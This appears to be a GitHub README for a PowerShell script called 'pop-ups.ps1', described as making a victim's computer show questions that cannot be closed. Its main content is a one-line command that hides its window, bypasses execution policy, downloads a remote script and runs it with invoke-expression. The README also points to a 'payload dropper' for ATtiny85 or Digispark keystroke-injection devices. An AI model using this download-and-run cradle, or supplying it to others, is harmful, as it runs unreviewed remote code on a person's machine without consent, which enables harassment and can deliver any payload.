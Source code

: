 ![alt text](https://github.com/d0cax/d0cax/blob/main/Screenshot%202024-08-02%20001147.png)

## pop-ups.ps1

#### Description
A script to run a .exe file which asks multiple questions to victim without being able to be closed.

```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https://raw.githubusercontent.com/d0cax/pop-ups/main/PopUps.ps1?dl=1; invoke-expression $pl
```
#### Usage 
Check out my payload dropper to use on an attiny85 or digispark.
* [Payload dropper](https://github.com/d0cax/payloaddropper)

#### Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)
* [I am Jakoby](https://github.com/I-Am-Jakoby/)
